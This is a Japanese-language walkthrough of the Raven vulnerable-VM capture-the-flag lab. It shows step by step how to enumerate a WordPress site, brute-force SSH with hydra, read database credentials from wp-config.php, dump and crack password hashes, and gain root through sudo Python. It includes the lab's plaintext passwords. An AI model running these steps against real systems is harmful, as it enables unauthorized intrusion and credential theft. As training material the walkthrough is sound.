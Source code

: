 ## Raven 683~

## 目的
- flag1.txt <- webサイト
- flag2.txt <- ターゲットのフォルダ
- flag3.txt *2 <- SQLの中
- flag4.txt *2 <- SQLの中とrootフォルダ
- 合計で6つを見つける
## 実践
### ポートスキャンまでは同じ
- フォルダを作る
- 環境変数に登録する
  

### Dirbでサイトを探す
- `dirb $URL -r`
  - `-r` 再帰的に調査しない。ここでは-rをつけないと終わらないのでつけている
  - 辞書ファイルを指定しないと、デフォルトの/usr/share/dirb/wordlists/common.txtファイルを使っている
  - ここでは使っていないが、`wordpress/wp-login.php`がある

### gobusterで探す(別解)
- Dirbと当然、同じディレクトリが出てくる。
  - メリット -> Dirbよりも速度が速いので、gobusterの方がいいかも
  - デメリット -> wordpressまでしか出てこないが、Dirbならwp-login.phpまで出てくる
### Webサイトを見て修正する
- `http://192.168.56.107/wordpress`ブラウザのパスを見て、wordpressが使われているのがわかる
- サイトが崩れているので直す
- `sudo vi /etc/hosts` 下のを書く
- `192.168.56.107 raven.local` 

### もう一度Webサイトを見てみる
- サイトで右クリック`view page source`を選択で`ctrl + f`で検索する

### WPScanでWordPressをチェックする
  - wpscanをインストールできるようにNATに接続する
  - `sudo gem install wpscan`
  - `wpscan --url 192.168.56.107/wordpress --enumerate u`
  - wpscanで得た名前をnames.txtに書いておく。`cat > names.txt`
    ```
    michael
    steven
    ```
  - (参考) wordpressを使っているので、wigやdroopescanも使える


### Hydraでパスワード探す
- `sudo hydra ssh://192.168.56.107 -L names.txt -P /usr/share/john/password.lst -v -t 50`
  - `-t` 同時にタスクを動かせる数、16がデフォルト。数字が大きいほど速くなる。ただし、sshでは制限があるので、`-t 4`がリコメンドされている
- httpでなく、sshなので注意
- `michael`だけしかパスワードわからないので、そこで止める

### (参考) nmapでパスワードを探す
- `sudo nmap -p 22 --script ssh-brute --script-args userdb=names.txt,passdb=pass.txt`
  - passdb.txtはパスで指定できないので、同じディレクトリでないとだめ

### ~(参考) wpscanでパスワードを探す~
- ~wpscan --url $URL --passwords /usr/share/john/password.lst~
- ~これでできると思ったが、ここではsshの接続であってwordpressではなかったのでパスワードは出てこない~

### sshで接続
- `ssh michael@$IP`
  - password `michael` 

### システム内の探索
- ユーザmichaelで探索
- `sudo -l`
  - パスワードがわからない 
- SUIDをする
  - 特に使えるものはない 
- `cat /etc/passwd`
  - stevenという気になるユーザが見つかる 
- wordpressの設定ファイルにuser,passworを探す
  - `cd /var/www/html/wordpress/`
  - `cat wp-config.php`

### MySQLの設定情報を見る
- portを探す `netstat -antp`
- MySQLのデフォルトポートは3306なので、それを使う

### MySQLに接続
- `mysql -h localhost -u root -pR@v3nSecurity`
- `-p`オプションはパスワードだが、なぜかスペースなしで続けてパスワードを書く。そもそもパスワードをコマンドに書かない
- mysql> こんなプロンプトが返ってきたら成功
- 注意: MySQLはコマンドの最後に`;`をつけないとダメ
- データベースに何が入っているか表示する `show databases;`
- wordpressが気になるので移動して見る `use wordpress;`

### MySQLの探索
- wordpressの中身にどんなのがあるか調べてみる `show tables;` 
- wp_usersが気になるので見てみる  
  - `select * from wp_users\G`
  - selectはprintみたいなもの
  - \Gは綺麗に表示してくれる。なしでやってみたらわかる
- `select concat(user_login, ":", user_pass) from wp_users into outfile '/tmp/hash.txt';`
- wordpressのユーザ名とパスワードの書いたhash.txtが作成される。通常SQLでパスワードが保存されているときはハッシュ化
### MySQLをさらに探索
- ブログの記事を保存してあるテーブルを見る
  - `select * from wp_posts\G`
- `quit;`
### ParrotOS側のhash.txtにコピーする
- 通常パスワードの解析は攻撃側端末で行う理由は３つ
- 1. ターゲット端末にJohnがインストールされてることはない
  2. ターゲット端末に負荷がかかるので見つかる可能性がある
  3. 攻撃端末の方が高スペックである
- ターゲット端末のhash.txtをコピーして、ParrotOS側の新しい端末を起動してターミナルにペーストする
  - `cat > hash.txt` 
### John the ripper(ParrotOS側で)
  - hash.txtの場所に移動して、またはhash.txtを絶対パスで指定して以下を実行 
  - `sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
    - 過去に一度解析していたら以下のコマンドする
    - `sudo john --show hash.txt` 
### stevenに切り替える
- userのstevenのpasswordがわかるので切り替える
- `su steven`
- password`pink84`

### sudo -l
  - `sudo -l` Pythonがルート権限で使えるのを確認
### Pythonでrootシェルを取得
  - `sudo /usr/bin/python`
  - ここでPythonのプログラムが起動する。Pythonはシェルを起動できるので、Pythonで起動したものはrootになれる
  - `import os`
  - `os.system('/bin/bash')`
### ルートフラグを開く
  - `cd /root`
  - `cat flag4.txt`    
